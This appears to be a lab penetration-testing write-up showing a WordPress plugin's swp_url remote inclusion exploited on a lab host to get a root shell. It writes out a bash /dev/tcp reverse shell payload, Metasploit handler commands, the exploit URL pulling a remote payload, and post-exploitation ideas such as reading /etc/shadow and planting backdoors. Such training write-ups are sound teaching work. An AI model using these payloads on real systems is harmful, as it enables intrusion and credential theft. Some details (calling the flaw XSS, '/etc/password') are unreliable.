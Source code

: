 We open a web browser and past the exploitable URL into the search and press enter 
<img width="1057" alt="Screenshot 2025-04-16 at 8 34 50 PM" src="https://github.com/user-attachments/assets/d7fafd95-1c2f-4ebb-992f-ddc586a689be" />
The exploit was a success, the browser displayed the contents of the megaquagga.local webserver’s /etc/password file. This confirms that we’ve executed the payload on the target server using its permissions — the exploit is now working on the target!
We now replace the test payload with the following reverse shell payload: <pre>exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.100.20/443 0>&1'");</pre>
We need to configuring the handler to catch your shell. A handler is a critical tool in penetration testing for managing connections from exploit payloads.
We open Metasploit and load the handler module. This module listens for connections from the payload and establishes a session. We use the following command to do this: use multi/handler
<img width="556" alt="Screenshot 2025-04-16 at 8 52 51 PM" src="https://github.com/user-attachments/assets/db1b0526-d68f-4714-ae40-00c5d724f75a" />
We then use the following commands to configure the handler: set lhost 192.168.100.20 to set listener IP, set lport 443 to set listener port, and exploit -j to start the handler
<img width="562" alt="Screenshot 2025-04-16 at 9 00 38 PM" src="https://github.com/user-attachments/assets/77dc509c-37f4-4cd3-a813-6c942cd2d77b" />
Now we execute the XSS URL: http://www.megaquagga.local/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://192.168.100.20:8000/payload.txt. Then we go back to the Metasploit terminal window to display the handler.
<img width="1296" alt="Screenshot 2025-04-16 at 9 33 37 PM" src="https://github.com/user-attachments/assets/09734623-c061-460e-8465-c2b9421a5ba8" />
Once the payload executes, this output appearing in your Metasploit handler’s Terminal window indicates a new connection (”session”) has been created. The session confirms that the reverse shell connection from the target to your handler was successful. We check the active sessions in Metasploit to confirm that your reverse shell is connected with the following command: sessions -i
<img width="948" alt="Screenshot 2025-04-16 at 9 45 52 PM" src="https://github.com/user-attachments/assets/0f5da966-b4bf-4108-8754-e00ee061f04d" />
To find out where our shell landed we use the whoami command.
<img width="625" alt="Screenshot 2025-04-16 at 9 51 39 PM" src="https://github.com/user-attachments/assets/66e13321-9ce9-4836-bde4-bce2964a05af" />
We landed on root that means that we have full privileges of the system we can read, write, and execute anything. This is by far the happiest place to find your shell has landed.
From here we could extract credentials (cat /etc/shadow), disable security tools, create a persistent backdoor, or pivot to other machines.



Every screenshot should have some text explaining what the screenshot is about.

Example below.

*Ref 1: Network Diagram*
